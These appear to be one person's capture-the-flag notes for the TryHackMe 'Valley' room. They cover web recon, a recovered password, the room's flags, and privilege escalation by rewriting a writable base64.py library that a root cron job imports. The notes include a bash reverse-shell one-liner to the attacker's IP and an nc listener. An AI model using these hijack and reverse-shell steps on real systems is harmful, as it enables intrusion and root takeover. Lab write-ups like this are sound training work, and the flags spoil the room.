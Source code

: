 [TryHackMe | Valley](https://tryhackme.com/room/valleype)

[TryHackMe "Valley" Writeup](https://youtu.be/Dbu6HI5JRnU)

http://10.10.132.96/static/00
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts

http://10.10.132.96/dev1243224123123/


```
valleyDev@valley:~$ cat user.txt 
THM{k@l1_1n_th3_v@lley}
```

![[Pasted image 20230527183730.png]]

![[Pasted image 20230527183934.png]]

```
$cat /etc/passwd |grep -E sh$
```

```
valley:liberty123
```

```
find / -group valleyAdmin -ls 2>/dev/null
```

![[Pasted image 20230527192107.png]]

```
cat /etc/crontab
```
![[Pasted image 20230527192600.png]]

```
valley@valley:~$ find / -group valleyAdmin -ls 2>/dev/null
   263787     20 drwxrwxr-x  30 root     valleyAdmin    20480 Mar 20 07:48 /usr/lib/python3.8
   263097     20 -rwxrwxr-x   1 root     valleyAdmin    20382 Mar 13 03:26 /usr/lib/python3.8/base64.py
valley@valley:~$ 
```

```
python3 /photos/script/photosEncrypt.py
```
![[Pasted image 20230527192751.png]]

```
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```

```
nano /usr/lib/python3.8/base64.py
```

```
import os

os.system('ping -c 2 10.17.44.152')
```

![[Pasted image 20230527193831.png]]

```
tcpdump -i tun0 icmp
```

![[Pasted image 20230527194252.png]]

```
nc -vnlp 9001
```

```
/bin/bash -c \'bash -i >& /dev/tcp/10.17.44.152/9001 0>&1\'
```
![[Pasted image 20230527194652.png]]

```
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
```


![[Pasted image 20230527195025.png]]

![[Pasted image 20230723090424.png]]

